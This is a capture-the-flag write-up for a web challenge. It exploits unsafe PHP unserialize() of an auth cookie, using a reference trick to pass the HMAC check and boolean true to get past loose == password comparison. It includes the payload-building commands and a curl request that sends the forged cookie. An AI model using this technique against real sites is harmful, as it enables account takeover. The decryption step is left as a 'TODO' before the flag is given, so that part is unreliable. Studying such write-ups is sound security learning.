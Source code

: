 # CONFidence DS CTF Teaser: Web400

**Category:** Web
**Points:** 400
**Description:**

> Fiery Technologies has created a new login system, where all secret messages are encoded. Please, check if you can bypass the authorization and read dragon's private stuff: <http://23.253.207.102/>

## Write-up

The website says:

> **You're not logged in.**
>
> Welcome to our new security system. You can try the demo version of the script here. For sure you'll be pleased.
>
> Use below credentials to try out our unbreakable message system:
>
> « guest:guest »
>
> We'll be looking forward your order.

Logging in with username `guest` and password `guest`, we get another message:

> You're logged in as guest!
> Source code of our newest system is available here:
>
> [« demo.zip &raquo;](demo)

[Unzipping this `demo.zip` file](demo) reveals some parts of the website’s source code.

[`database.php`](demo/database.php) contains the following:

```php
<?php

$database = array(

  array(
    'username' => 'guest',
    'password' => '084e0343a0486ff05530df6c705c8bb4',
    'secret_message' =>
    'ae7d55f7e2af728e7408d50677324732bca66dbd49f7b5f02956a0cc948648c715c6e988c8a178ba0b3b7aea83911b4ba8560831af16bfc8c6aa0f30f94c4fd5013b63d44364ea6f365cf059a3c8f8a6887944152af1de6e187248595ab9956a7479890a5e6ed4e95ff7e136b54030f8c239b33d042f5811f76af989ef0bd09e2b0a5619179f9ec2790f3a89f249769a207619d3b4c8c7384d91429ed07820206fcd127dc6cb873bb19395eaa385799fda5cf3e8ff6d094a6c7a8cb385320083ce2494800b1195a727b2e0ebf3f88e9a3220600ca024d5ebdbd680b3e13c660a'
  ),

  array(
    'username' => 'dragon',
    'password' => '[put md5 of your secret password here]',
    'secret_message' =>
    '[order the full version of the script to get encryption module]'
  )

);
```

The first item checks out – `084e0343a0486ff05530df6c705c8bb4` is the MD5 hash of `guest`, the password for the `guest` account we just used to login. The second array item is missing the juicy info, but at least now we know the username of the account we’re supposed to hack in to: `dragon`.

[The `auth.php` file](demo/auth.php) determines whether a login was successful or not:

```php
$auth = $_COOKIE['auth'];
if(get_magic_quotes_gpc())
  $auth = stripslashes($auth);
$auth = unserialize($auth);

if(!is_array($auth))
  return false;

$auth['hmac_t'] = sha1(sha1($auth['username'].$auth['hmac_t'].$auth['password']).$secret_salt);

if($auth['hmac_t'] !== $auth['hmac'])
  return false;
```

As we can see, the value of the `auth` cookie gets `unserialize()`d. There is a subtle unsafe unserialization vulnerability here that allows us to bypass the `$auth['hmac_t'] === $auth['hmac'])` check: since we control the value of the `auth` cookie, we can control the value of `$auth`, [as long as it’s an array](demo/auth.php#L11-12).

The [PHP `serialize()` documentation](http://php.net/serialize) contains this nugget:

> `serialize()` handles all types, except the resource-type. You can even `serialize()` arrays that contain references to itself. Circular references inside the array/object you are serializing will also be stored. Any other reference will be lost.

In this case, we can construct a custom array with the expected `username`, `password`, and `hmac` fields, and then add a `hmac_t` field that references the `hmac` field directly. The value for the `hmac` field doesn’t even matter:

```bash
$ php -r '$a = array("username" => "dragon", "password" => "???", "hmac" => "https://github.com/ctfs/write-ups"); $a["hmac_t"] = &$a["hmac"]; echo urlencode(serialize($a)) . "\n";'
a%3A4%3A%7Bs%3A8%3A%22username%22%3Bs%3A6%3A%22dragon%22%3Bs%3A8%3A%22password%22%3Bs%3A3%3A%22%3F%3F%3F%22%3Bs%3A4%3A%22hmac%22%3Bs%3A33%3A%22https%3A%2F%2Fgithub.com%2Fctfs%2Fwrite-ups%22%3Bs%3A6%3A%22hmac_t%22%3BR%3A4%3B%7D
```

Using this as the value of the `auth` cookie, we effectively bypass the `$auth['hmac_t'] === $auth['hmac'])` check. We’re still not logged in however, because of this code:

```php
$message = '';

foreach($database as $row)
{
  if($row['username'] == $auth['username'])
  if($row['password'] == $auth['password'])
  {
    $message = $row['secret_message'];
    return true;
  }
}

return false;
```

We know the expected username is `dragon`, so the `if($row['username'] == $auth['username'])` check is not a problem. We still need to make sure `$row['password'] == $auth['password']` holds true, though. `$row['password']` holds the MD5 hash of the password for the user `dragon` – a value we don’t know. How can we make our `$auth['password']` value be equal to it without knowing the right value? Luckily, [PHP’s crazy `==` operator](http://gynvael.coldwind.pl/?id=492) is being used here rather than the more sensical `===`. This allows us to use a non-string value for `$auth['password']` that will still equal any string, such as the boolean `true`. (Seriously, check out that last link link for more examples. PHP is crazy.)

```bash
$ php -r '$a = array("username" => "dragon", "password" => true, "hmac" => "https://github.com/ctfs/write-ups"); $a["hmac_t"] = &$a["hmac"]; echo urlencode(serialize($a)) . "\n";'
a%3A4%3A%7Bs%3A8%3A%22username%22%3Bs%3A6%3A%22dragon%22%3Bs%3A8%3A%22password%22%3Bb%3A1%3Bs%3A4%3A%22hmac%22%3Bs%3A33%3A%22https%3A%2F%2Fgithub.com%2Fctfs%2Fwrite-ups%22%3Bs%3A6%3A%22hmac_t%22%3BR%3A4%3B%7D
```

Using this as the value of the `auth` cookie, we’re successfully logged in as the `dragon` user!

```bash
$ curl --cookie 'auth=a%3A4%3A%7Bs%3A8%3A%22username%22%3Bs%3A6%3A%22dragon%22%3Bs%3A8%3A%22password%22%3Bb%3A1%3Bs%3A4%3A%22hmac%22%3Bs%3A33%3A%22https%3A%2F%2Fgithub.com%2Fctfs%2Fwrite-ups%22%3Bs%3A6%3A%22hmac_t%22%3BR%3A4%3B%7D' 'http://23.253.207.102/' > message.html
```

The response ([available as `message.html`](message.html)) contains the following message:

```bash
$ hexdump -C -s 0x520 message.html | head -n 23
00000520  64 69 76 20 63 6c 61 73  73 3d 22 63 6f 6e 74 61  |div class="conta|
00000530  69 6e 65 72 22 3e 0a 83  b3 6a 91 15 3e 36 d6 45  |iner">...j..>6.E|
00000540  b3 cc 5b 24 e3 49 c4 d5  f8 6a dd 64 85 7e 1b 6d  |..[$.I...j.d.~.m|
00000550  6c 04 8a eb d5 47 bd c8  05 ab d8 64 8c 37 d6 45  |l....G.....d.7.E|
00000560  7b 03 4e 09 7d f4 bd 83  b3 6a 91 15 3e 53 26 47  |{.N.}....j..>S&G|
00000570  8f 0a 8b 32 e6 36 11 d8  ff ab e5 5e 8d 85 29 2a  |...2.6.....^..)*|
00000580  6b f4 8c 40 9b 4b 02 83  f9 b9 e6 63 82 37 2a 71  |k..@.K.....c.7*q|
00000590  b0 bb 83 37 d5 3b d7 9f  c2 ba ae ff 3e 36 d6 29  |...7.;......>6.)|
000005a0  6b bb 3c eb b0 44 db 9f  f4 6a d4 61 7f 8a 29 46  |k.<..D...j.a..)F|
000005b0  6d fd 91 39 94 37 11 d1  c0 ba e3 5e 8b 78 28 82  |m..9.7.....^.x(.|
000005c0  6b fd 91 39 a1 41 04 85  b3 bc e0 61 83 53 d8 6b  |k..9.A.....a.S.k|
000005d0  c1 0f 91 3a e1 f6 bd cc  05 af d7 32 40 81 17 7f  |...:.......2@...|
000005e0  ad 0e 80 3d dd 45 11 9e  09 b9 da 59 46 87 28 78  |...=.E.....YF.(x|
000005f0  b9 0b 90 f3 9b 29 05 c8  b3 90 dd 56 85 3d e2 30  |.....).....V.=.0|
00000600  90 0d 84 39 c7 4f cf 9c  ca 7b d7 2d 54 7d 19 40  |...9.O...{.-T}.@|
00000610  ac cc 52 fc d8 09 ce 97  f8 81 d5 57 82 78 1a 3e  |..R........W.x.>|
00000620  af fd 83 2c a6 0b 1a 8a  bc 73 93 33 44 83 17 7a  |...,.....s.3D..z|
00000630  c1 0a 57 eb b8 47 04 d1  e6 c5 a3 2e 55 48 1c 41  |..W..G......UH.A|
00000640  82 01 80 02 d5 05 d3 94  f7 7f a2 29 83 4e 1a 6b  |...........).N.k|
00000650  af fc 81 00 d8 37 03 c4  c5 80 ee 15 44 89 17 7a  |.....7......D..z|
00000660  c1 0a 58 07 a3 35 db 63  93 4a 70 f5 1e 16 b6 09  |..X..5.c.Jp.....|
00000670  4b 9b 1d 07 a3 44 db 0a  20 20 20 20 20 20 3c 2f  |K....D..      </|
00000680  64 69 76 3e 0a 20 20 20  20 3c 2f 64 69 76 3e 0a  |div>.    </div>.|
```

The message is garbled because it has been decrypted using the incorrect password we provided. Looks like we’re gonna have to reverse [the `printmsg()` function in `message.php`](demo/message.php).

(TODO)

The flag is `DrgnS{2971f86fc7a161d514e7dbdad5dbfa26}`.

## Other write-ups and resources

* [Write-up by Rentjong (auto-translated)](https://translate.google.com/translate?hl=en&sl=id&tl=en&u=http%3A%2F%2Frentjong-team.blogspot.com%2F2014%2F04%2Fconfidence-dragon-sector-ctf-teaser.html)
* [Solution by phiber](https://gist.github.com/anonymous/c40c5e90482eed1151e5)
